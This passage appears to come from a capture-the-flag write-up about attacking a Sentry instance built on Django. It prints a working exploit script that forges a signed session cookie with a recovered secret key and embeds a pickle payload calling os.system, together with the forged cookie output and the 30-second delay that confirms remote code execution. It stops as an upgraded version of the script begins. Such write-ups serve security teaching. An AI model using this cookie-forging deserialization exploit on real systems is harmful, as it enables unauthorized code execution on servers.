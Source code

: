     
    
    #!/usr/bin/python
    import django.core.signing, django.contrib.sessions.serializers
    from django.http import HttpResponse
    import cPickle
    import os
    
    SECRET_KEY='[RETRIEVEDKEY]'
    #Initial cookie I had on sentry when trying to reset a password
    cookie='gAJ9cQFYCgAAAHRlc3Rjb29raWVxAlgGAAAAd29ya2VkcQNzLg:1fjsBy:FdZ8oz3sQBnx2TPyncNt0LoyiAw'
    newContent =  django.core.signing.loads(cookie,key=SECRET_KEY,serializer=django.contrib.sessions.serializers.PickleSerializer,salt='django.contrib.sessions.backends.signed_cookies')
    class PickleRce(object):
        def __reduce__(self):
            return (os.system,("sleep 30",))
    newContent['testcookie'] = PickleRce()
    
    print django.core.signing.dumps(newContent,key=SECRET_KEY,serializer=django.contrib.sessions.serializers.PickleSerializer,salt='django.contrib.sessions.backends.signed_cookies',compress=True)
    

I started by trying to convert this to python3 by replacing `cPickle` with
`pickle` and fixing the print. It worked, but the cookie didn’t work. Because
serialization is different between the two, I dropped to Python2 (it was a bit
of a pain to get `pip2` to install `django`, a solution is in a comment on
[this stack overflow
post](https://stackoverflow.com/questions/64187581/e-package-python-pip-has-
no-installation-candidate)).

In the Sentry panel from Firefox, I’ll look into the dev tools and grab the
`sentrysid` cookie, and add it to the `cookie` variable in the script. I’ll
also add the key. Running this prints a new cookie:

    
    
    oxdf@parrot$ python2 django-rce.py 'sleep 30'
    Forged cookie:
    .eJxrYKotZNQI5UxMLsksS80vSo9gY2BgKE7NKymqDGUpLk3Jj-ABChQEFyZaljmblJv7-kRwAQVKUotLkvPzszNTkwvyizMruIori0tSc7kKmUI5inNSUwsUjA0KmVuDCllCeeMTS0sy4kuLU4viM1O8WUOFkASSEpOzU_NSQpUgVuqVlmTmFOuB5PVccxMzcxyBLCeImlI9AMvDOmg:1m47Ab:qtESKz_ys02L-8eRSb5mxPZQFgA
    

Replacing the `sentrysid` cookie with the output and refreshing, the page
hangs for 30 seconds, and then returns an error. That’s RCE.

I upgraded the script a bit to take a command from the command line and to
submit the cookie for me to save copy and pasting:

    
    
    #!/usr/bin/python2
    import django.core.signing, django.contrib.sessions.serializers
    from django.http import HttpResponse
    import cPickle
    import os
    import requests
    import sys
    